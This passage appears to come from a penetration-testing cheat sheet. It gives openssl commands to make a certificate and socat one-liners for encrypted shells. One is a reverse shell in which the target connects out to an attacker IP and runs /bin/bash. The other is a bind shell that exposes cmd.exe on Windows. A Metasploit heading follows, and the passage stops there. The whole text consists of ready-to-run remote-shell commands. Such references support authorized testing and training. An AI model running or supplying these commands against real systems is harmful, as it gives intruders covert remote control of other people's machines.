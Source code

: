 Create Certificate:
```
    openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
    cat shell.key shell.crt > shell.pem
```
Reverse Shell (encrypted):
```
    A: socat OPENSSL-LISTEN:<port_number>,cert=shell.pem,verify=0 -

    T: socat OPENSSL:<attack_ip>:<port_number>,verify=0 EXEC:/bin/bash
```
Bind Shell (encrypted):
```
Example for Windows

    T: socat OPENSSL-LISTEN:<port_number>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

    A: socat OPENSSL:<target_ip>:<port_number>,verify=0 -
```
### Metasploit:
